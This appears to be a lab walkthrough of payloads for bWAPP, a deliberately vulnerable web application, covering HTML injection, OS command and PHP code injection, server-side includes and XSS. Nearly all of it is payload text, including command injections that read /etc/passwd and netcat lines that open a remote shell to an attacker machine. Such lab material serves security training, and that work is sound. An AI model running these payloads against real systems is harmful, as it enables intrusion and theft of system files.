 # A1 - Injection

### HTML Injection - Reflected (GET)
htmli_get.php

```
192.168.200.150/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```

### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```
### HTML Injection - Stored (Blog)

Following solution taken from:

```
<div class="code"><iframe SRC="http://192.168.200.130:775" height="0" width="0"></iframe></div>
```
Attacker's machine:
```
nc -lvp 775
```

### OS Command Injection
```
127.0.0.1; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 | cat /etc/passwd
127.0.0.1 && nc -vn 192.168.254.128 775 -e /bin/bash
```

Attacker's machine:
```
nc -lvp 775
```


### OS Command Injection - Blind
```
127.0.0.1 | sleep 10
```

### PHP Code Injection

```
192.168.200.130/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```

### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="nc -lvp 775 -e /bin/bash" -->
Attacker's machine:
```
nc -nv 192.168.200.150 775




# A3 - Cross-Site Scripting (XSS) 

### XSS - Reflected (GET)
xss_get.php

```
<script>alert(Hi )</script>
```
### XSS - Reflected (POST)

xss_post.php
```
<script>alert(2017)</script>
```

### XSS - Reflected (JSON)

xss_json.php
```
"}]}';prompt(2017)</script>
```

### XSS - Reflected (AJAX/JSON)

xss_ajax_2-1.php
```
<svg onload=prompt(2017)>
```

### XSS - Reflected (AJAX/XML)
xss_ajax_1-1.php
```
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.
```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(2017)</script></html>
```

### XSS - Reflected (Back Button)
Modify Referer header field
```
Referer: ';alert(2017);'
```

### XSS - Reflected (Custom Header)
Add header field
```
bWAPP: <script>alert(2017)</script>
```

### XSS - Reflected (Eval)
```
date=alert(2017)
```




